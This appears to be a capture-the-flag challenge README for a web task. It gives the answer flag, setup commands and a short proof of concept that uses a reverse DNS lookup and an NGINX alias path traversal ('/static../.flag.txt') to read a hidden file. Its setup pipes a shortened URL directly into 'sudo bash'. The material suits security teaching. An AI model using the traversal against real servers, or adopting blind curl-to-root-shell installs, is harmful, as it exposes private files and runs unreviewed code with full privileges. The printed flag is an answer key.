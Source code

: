 # Uptime Resolver

> Difficulty: Medium </br>
> Category: Web </br>
> FLAG: **YASCON{ReverseDnsLookup-d7ad0997540209cbe09e7db4ab4ceb2f}** </br>

## Setup

```bash
$ curl -Ls https://git.io/JUFEA | sudo bash # turning off default DNS Listener
0x01 $ bash setupdns.sh -c
0x01 $ docker-compose up -d
```

## Challenge PoC

> Reverse DNS Lookup  --> NGINX Alias Path Traversal via Misconfiguration

```bash
$ dig @public-ip -x public-ip # get PTR
$ echo "uptime-dash.yascon.local public-ip" >> /etc/hosts
$ curl http://uptime-dash.yascon.local
$ curl --path-as-is http://uptime-dash.yascon.local/static../.flag.txt # FLAG!!!
```
<!-- v1dhun 29/09/2020 -->